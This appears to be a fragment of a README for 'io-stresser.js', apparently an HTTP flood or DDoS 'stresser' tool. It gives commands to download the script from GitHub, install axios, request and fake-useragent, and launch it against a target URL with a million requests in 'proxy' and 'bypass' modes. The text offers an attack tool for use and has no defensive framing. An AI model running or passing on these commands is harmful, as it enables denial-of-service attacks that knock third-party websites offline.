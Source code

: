 wget https://raw.githubusercontent.com/tienquan2019/2022/main/io-stresser.js
npm install axios
npm install request
npm install fake-useragent
node io-stresser.js
node io-stresser.js https:// 1000000 5 proxy
node io-stresser.js https:// 1000000 5 bypass
